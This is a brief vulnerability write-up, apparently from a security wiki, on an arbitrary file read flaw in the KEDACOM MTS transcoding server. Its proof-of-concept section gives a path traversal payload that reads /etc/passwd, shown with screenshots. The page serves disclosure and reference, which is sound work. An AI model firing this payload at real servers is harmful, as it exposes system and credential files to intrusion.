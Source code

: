 # Keda MTS transcoding server Arbitrary file reading vulnerability

## Vulnerability Description

The KEDACOM MTS transcoding server has an arbitrary file reading vulnerability, which can be used to read any information on the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">MTS transcoding server</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1639570369459-12a283d6-4165-44c6-9618-0943fb751a91.png)

Verify POC

```python
/../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791.png)